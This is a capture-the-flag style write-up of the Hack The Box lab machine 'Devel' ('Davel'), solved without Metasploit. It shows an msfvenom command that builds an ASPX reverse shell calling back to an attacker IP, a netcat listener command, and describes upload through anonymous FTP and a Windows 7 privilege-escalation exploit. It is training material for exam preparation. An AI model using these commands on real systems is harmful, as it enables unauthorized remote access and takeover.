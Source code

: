 ```yaml
---
layout: post
title:  "HTB - DAVEL - Without Metasploit"
date:   2020-02-11 08:07:19
categories: [HTB,Writeup,oscp-prep]
comments: true
image:
  feature: ![infocard](https://raghul.ml/img/infocard.png)
---
```


Davel is one of the easy windows OSCP like machine. The full list of OSCP like machine can be found [here](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#)

Let's get started!

<!--more-->

### Recon
 
Started with [nmapAutomater](https://github.com/21y4d/nmapAutomator) for recon and found FTP port open with anonymous access.

![nmap-result](https://www.raghul.ml/img/nmap-allowed-anonymous.png)

The machine also has port 80 open which looks like default IIS page.

![http-site](https://www.raghul.ml/img/http-site.png)

Whatever uploaded in the FTP can be accessed from HTTP.

### Exploitation

Creating aspx reverse shell using msfvenom.

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.80 LPORT=4242 -f aspx > shell.aspx`

Uploading the aspx file to the ftp

![uploading shell](https://www.raghul.ml/img/uploading-shell-anonymous-ftp.png)

Accessing the shell from the HTTP to get the reverse tcp connection. Spawn the listener in attacker machine

`nc -nlvp 4242`

Got shell. But the user was IIS user and dosent have user or admin privilege.

### Privilege escalation

![windows shell system info](https://www.raghul.ml/img/windows_shell_systeminfo.png)

From the system info we can understand the following:
1. Os Name : Windows 7 enterprise 
2. Os version : 6.1.7600
3. Hotfix : Not applied


Googled the OS name and its version for corresponding CVE and found a exploit on exploitdb.

![priv-exec](https://www.raghul.ml/img/priv-esc-exploitdb.png)

Use `searchsploit` to copy the exploit locally.

![searchsploit](https://www.raghul.ml/img/searchsploit.png)

Method to build the exe is given in the comment section of the exploit

![how to build](https://www.raghul.ml/img/how-to-build.png)

Compiling the exe file and creating python shell to transfer the exe file.

![compiling](https://www.raghul.ml/img/compiling%20and%20executing%20binary.png)

Using powershell, Downloading the exe file to the victim machine.

![powershell to donwload the file](https://www.raghul.ml/img/Download-files-in-windows.png)

Executing the exe file

![priv exec](https://www.raghul.ml/img/executing-shell-gaining-system-priv.png)

##### Owning User

![owning user](https://www.raghul.ml/img/owning-user.png)

##### Owning Administrator
![owning root](https://www.raghul.ml/img/owning-root.png)


### Cleanup

1. Deleting aspx shell from FTP

![ftp-cleanup](https://www.raghul.ml/img/cleanup-ftp.png)

2. Deleted privexec exe from the machine





